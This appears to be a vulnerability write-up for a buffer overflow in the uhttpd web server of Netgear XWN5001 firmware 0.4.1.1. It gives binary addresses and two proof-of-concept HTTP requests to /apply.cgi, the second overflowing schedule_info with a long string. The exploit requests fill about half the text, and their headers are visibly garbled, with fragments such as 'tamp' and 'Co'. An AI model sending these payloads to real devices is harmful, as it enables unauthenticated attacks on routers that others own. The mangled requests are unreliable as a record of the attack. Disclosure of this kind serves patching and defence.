


# xwn5001-0.4.1.1
## Firmware version
xwn5001-0.4.1.1

The firmware can be downloaded at https://www.netgear.com/support/product/xwn5001/.
## description
The Netgear xwn5001-0.4.1.1 uhttpd binary has a buffer overflow vulnerability. When a specific network packet is sent to the uhttpd binary, the strcpy operation crashes. This vulnerability can be exploited by a local or remote unauthenticated attacker.
## detail
The vulnerability is located in the function at address 0x43988C of the binary usr/sbin/uhttpd. 
affected url: /apply.cgi
Firstly, parameter wless_schedule_edit_num is passed to wless_schedule_edit_num in nvram through nvram_set in function wireless_schedule_select_to_edit at 0x447908.

wireless_schedule_select_to_edit:



Secondly, The parameter schedule_info passed to strcpy in function wadv_schedule_edit at 0x4475B0 which is source of the issue.

wadv_schedule_edit:



## Send package
Pakcges should be sent in order.
# package1
```txt
GET /apply.cgi?c HTTP/1.1
Host: /cgi-bin/
tamp
Accept: 69
Co
Content-Length: 264

wladv_schedule_type=111&%20timestamp=;wzq&wless_schedule_edit_flag=wzqwzqwzq&wladv_schedule_edit_num=123&wless_schedule_edit_num=1231&submit_flag=wireless_schedule_select_to_edit
```

# package2
```txt
POST /apply.cgi? tim
Host: /cgi-bin/
C
Accept:
Con
Content-Length: 716

schedule_info=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&device=12&%20timestamp=;wzq&submit_flag=wadv_schedule_edit
```
